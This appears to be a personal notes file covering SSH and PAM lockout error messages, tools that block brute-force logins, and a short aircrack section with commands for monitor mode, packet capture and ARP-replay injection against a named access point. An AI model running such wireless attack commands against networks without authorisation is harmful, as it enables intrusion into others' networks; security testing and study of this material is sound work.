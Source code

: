 - 'Tally overflow': /var/log/faillog shows that the user has already too many tries and is temped banned
- 'maximum authentication attempts exceeded': ssh allows the user 6 tries to authenticate, but pam only allow 3 anyway [hardcoded] and replies an error to the other 3 auth attempt

Prevent attacks [from older to newer]: denyhosts, fail2ban, sshguard
https://wiki.archlinux.org/index.php/sshguard

aircrack
--------

sudo airmon-ng start wlan0
sudo airodump-ng -c 11 -w data-capture wlan0mon
sudo aireplay-ng -3 -b 00:1a:2b:62:49:45 -h C8:02:10:06:01:5F wlan0mon
